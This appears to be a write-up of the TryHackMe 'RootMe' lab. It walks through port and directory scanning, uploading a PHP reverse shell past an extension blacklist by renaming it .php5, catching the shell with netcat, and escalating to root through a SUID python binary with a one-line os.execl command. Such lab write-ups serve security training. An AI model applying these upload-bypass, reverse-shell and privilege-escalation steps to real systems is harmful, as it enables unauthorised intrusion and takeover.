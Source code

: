 # [RootMe](https://tryhackme.com/room/rrootme)

## Task 2: Reconnaissance

> Scan the machine, how many ports are open?

A quick `nmap` scan shows 2 ports: 22 and 80

```nmap
# Nmap 7.91 scan initiated Tue May 25 17:24:13 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.157.191
Nmap scan report for box.ip (10.10.157.191)
Host is up, received syn-ack (0.30s latency).
Scanned at 2021-05-25 17:24:13 +07 for 18s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 25 17:24:31 2021 -- 1 IP address (1 host up) scanned in 18.96 seconds
```

> What version of Apache is running?

`2.4.29`, as shown in the `nmap` result

> What service is running on port 22?

SSH

> Find directories on the web server using the GoBuster tool.

```sh
$ gobuster dir -u 'http://box.ip/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -r -o root
/uploads              (Status: 200) [Size: 737]
/css                  (Status: 200) [Size: 1119]
/js                   (Status: 200) [Size: 952]
/panel                (Status: 200) [Size: 732]
```

> What is the hidden directory?

`/panel` is the hidden directory.

## Task 3: Getting a shell

If you check `index.php` at the root page, you'll find that it's a PHP application, so here we'll try uploading [pentestmonkey's PHP reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) as `rev.php`...

![PHP upload error message](php-not-allowed.png)

... which gives us an error message I'm guessing means "PHP not allowed", so there's some kind of black-listing in place. Since `PHP` is blacklisted, I tried renaming the file to `rev.php5` (note the different file extension)...

![.php5 upload success](upload-success.png)

... and found that `.php5` is allowed! Remember that we also had the `/uploads` directory from the previous `gobuster` scan. Checking it, we have our reverse shell.

![/uploads](uploads.png)

(You can also see other file names I tried that got uploaded but didn't give a shell)

With a listener set up, clicking on `rev.php5` gives us a shell!.

```sh
$ nc -lnvp 1337
Connection from 10.10.157.191:57040
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:45:54 up 25 min,  0 users,  load average: 0.00, 0.03, 0.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can find `user.txt` in `/var/www`

```sh
bash-4.4$ cd /var/www
bash-4.4$ ls
html  user.txt
bash-4.4$ cat user.txt
THM{REDACTED}
```

## Task 4: Privilege Escalation

> Search for files with SUID permission, which file is weird?

We can find SUID files with `find`

```
bash-4.4$ find / -perm /4000 2>/dev/null
...[SNIP]...
/usr/bin/python
...[SNIP]...
```

If you check with your own linux system, you should find that `python` should *not* have the SUID bit set.

> Find a form to escalate your privileges.

You can find how to abuse `python` with the SUID bit set on [gtfobins](https://gtfobins.github.io/gtfobins/python/#shell)

```sh
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

As usual, `root.txt` can be found in `/root`

```
# cat /root/root.txt
THM{REDACTED}
```
